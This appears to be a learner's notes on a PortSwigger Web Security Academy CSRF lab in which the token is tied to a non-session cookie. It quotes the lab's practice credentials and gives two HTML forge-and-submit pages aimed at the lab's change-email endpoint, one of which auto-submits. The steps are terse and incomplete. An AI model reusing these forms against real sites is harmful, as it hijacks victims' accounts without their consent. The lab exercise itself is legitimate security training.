


# CSRF where token is tied to non-session cookie

## This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

### HINT:

```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0a0000ac0443861d809a260100f200dd.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="example@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

```javascript

```

---

### step 1

login weiner account
change email and send to repeter
try to change csrf code into repeater and test
csrf and csrfkey both are related to each other

### step2

login to carlos account
inspect login page for csrfkey and csrf token




```html
<html>
  <body>
    <form
      name="change-email-form"
      action="https://0ade0013041db8728074596200e7003b.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label>Email</label>
      <input
        required
        type="email"
        name="email"
        value="exa@normal-website.com"
      />
      <input
        required
        type="hidden"
        name="csrf"
        value="htsrRRjOPn24ZUczIAQWd2Rm9rBdjB5Y"
      />
      <button class="button" type="submit">Update email</button>
    </form>
    
  </body>
</html>
```
